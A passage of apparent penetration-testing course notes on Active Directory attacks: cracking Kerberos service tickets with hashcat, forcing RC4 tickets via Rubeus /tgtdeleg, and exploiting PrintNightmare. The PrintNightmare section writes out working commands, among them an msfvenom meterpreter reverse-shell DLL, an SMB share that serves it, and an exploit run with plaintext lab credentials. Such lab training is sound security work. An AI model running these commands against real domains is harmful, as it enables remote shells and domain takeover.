 If we check this with PowerView, we'll see that the msDS-SupportedEncryptionTypes attribute is set to 24, meaning that AES 128/256 encryption types are the only ones supported.


###### Running Hashcat
```
$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

###### Using the /tgtdeleg Flag
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

`Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use.`

* * *

## Vulnerabilities
### PrintNightmare
PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution. Using this vulnerability for local privilege escalation is covered in the Windows Privilege Escalation module, but is also important to practice within the context of Active Directory environments for gaining remote access to a host. Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.

We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.


#### Enumerating for MS-RPRN
```bash
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

#### Generating a DLL Payload
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
